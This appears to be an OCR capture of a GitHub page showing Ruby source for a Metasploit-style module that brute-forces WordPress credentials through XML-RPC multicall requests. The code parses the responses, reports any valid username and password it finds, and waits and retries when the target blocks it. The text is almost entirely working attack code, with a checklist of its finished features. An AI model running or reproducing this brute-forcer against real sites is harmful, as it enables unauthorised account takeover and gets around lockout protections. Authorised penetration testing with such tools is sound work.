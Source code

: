 ```ruby
      print_warning("I'll sleep for #{datastore['BLOCKEDWAIT']} minutes, then I'll try again. CTR+C to exit")
      sleep datastore['BLOCKEDWAIT'] * 60
    end
    @res = res
  end
```


- [x] Parse XML request and response 
- [x] Find the exact correct credentials 
- [x] Check if we got blocked
- [x] Parsing the result and find which password is correct 


```ruby
  def run
    return if check_wpstatus.nil?

    usernames.each do |user|
      passfound = false

      print_status("Brute forcing user: #{user}")
      generate_xml(user).each do |xml|
        next if passfound == true

        send(xml)

        # Request Parser
        req_xml = Nokogiri::Slop xml
        # Response Parser
        res_xml = Nokogiri::Slop @res.to_s.scan(/<.*>/).join
        puts res_xml
        res_xml.search("methodResponse/params/param/value/array/data/value").each_with_index do |value, i|

          result =  value.at("struct/member/value/int")
          # If response error code doesn't not exist, then it's the correct credentials!
          if result.nil?
            user = req_xml.search("data/value/array/data")[i].value[0].text.strip
            pass = req_xml.search("data/value/array/data")[i].value[1].text.strip
            print_good("Credentials Found! #{user}:#{pass}")

            passfound = true
          end

        end

        unless user == usernames.last
          vprint_status('Sleeping for 2 seconds..')
          sleep 2
        end

      end 
    end 
  end
```

